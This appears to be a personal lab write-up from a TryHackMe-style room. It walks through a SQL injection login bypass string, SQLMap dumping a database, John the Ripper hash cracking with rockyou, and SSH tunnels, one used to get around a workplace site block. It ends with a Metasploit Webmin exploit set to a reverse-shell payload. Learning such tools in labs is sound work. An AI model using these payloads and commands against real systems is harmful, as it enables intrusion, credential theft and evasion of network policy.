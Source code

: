 You can login using ```' or 1=1 --``` - as your username and leave the password blank.

# Using SQLMap
SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.
Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/d42a549b-7a6f-4a2d-881c-089236405633)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/895c9fe7-f9fe-4301-8f66-3ab2c3ce5f16)

-r uses the intercepted request you saved earlier
--dbms tells SQLMap what type of database management system it is
--dump attempts to outputs the entire database

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

# Cracking a password with JohnTheRipper
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/795d6f40-5039-447f-b46d-1a0224b446d9)

```sh
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

# Exposing services with reverse SSH tunnels
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/5cb8f2b3-d3db-44a2-8c3b-54c99ba773ed)

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ```ssh -L 9000:imgur.com:80 user@example.com```. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.


We will use a tool called ss to investigate sockets running on a host. If we run ```ss -tulpn``` it will tell us what socket connections are running
**Argument	      Description**
-t	            Display TCP sockets
-u	            Display UDP sockets
-l	            Displays only listening sockets
-p	            Shows the process using the socket
-n	            Doesn't resolve service names

# Privilege Escalation Using Metasploit
```sh
msf6> use exploit/unix/webapp/webmin_show_cgi_exec
msf6 exploit(unix/webapp/webmin_show_cgi_exec) >set payload cmd/unix/reverse
```
